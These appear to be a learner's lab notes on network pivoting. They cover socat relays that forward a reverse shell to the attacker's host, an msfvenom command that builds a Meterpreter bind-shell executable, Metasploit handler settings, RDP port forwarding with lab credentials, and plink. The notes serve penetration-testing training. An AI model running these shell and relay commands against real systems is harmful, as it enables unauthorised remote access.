 <br />

## Socat Redirection with a Reverse Shell

**Socat** is a bidirectional relay tool that can create pipe sockets between two independent network channels without needing to use SSH tunneling. It acts as a redirector that can listen on one host and port and forward that data to another IP address and port.  

Using the same example as above, we can get our reverse shell using socat:    
`socat TCP4-LISTEN:1234,fork TCP4:<tun0 ip addr>:8687`  
Running this on the ubuntu server will instruct socat to listen on port 1234 and forward all traffic to port 8687 on our attack host. Starting the listener and the shell as before should work (but it doesn't)  

<br />

## Socat Redirection with a Bind Shell

In the case of bind shells, the Windows machine will start a listener and bind to a particular port that we then reach out to

This was not part of the exercise for this one, but I want to point this out; IMO socat redirection is actually the easiest way to get an RDP session on the Windows VM from our attack box. We just run:  
`socat TCP4-LISTEN:3300,fork TCP4:172.16.5.19:3389`  
on the Ubuntu server to instruct it to redirect all incomming connections on port 3300 to 172.16.5.19:3389  
Then, `xfreerdp /v:<ubuntu server ip>:3300 /u:victor /p:pass@123` gets an RDP session  

We can generate a meterpreter bind shell with:  
`msfvenom -p windows/x64/meterpreter/bind_tcp -f exe -o bind_shell.exe LPORT=8443`  
Then, move the shell to the windows machine and run it  
Then, create a socat redirect on the Ubuntu server with:  
`socat TCP4-LISTEN:8080,fork TCP4:<windows box ip>:8443`  
This will forward all packets going to 8080 on the ubuntu server to 8443 on the windows box, and vice-versa  
Run a meterpreter bind handler on our attack box with:  
`use exploit/multi/handler`  
`set payload windows/x64/meterpreter/bind_tcp`  
`set RHOST <ubuntu server ip>`  
`set LPORT 8080`  
`run`  
And we get a shell (this one actually worked)  

<br />

## SSH for Windows: plink.exe  

**Plink**, short for PuTTY Link, is a Windows command-line SSH tool that comes as part of the PuTTY package when installed. Similar to SSH, Plink can also be used to create dynamic port forwards and SOCKS proxies.  

Another Windows-based tool is called Proxifier and can be used to starts a SOCKS tunnel via the SSH session created with plink.  
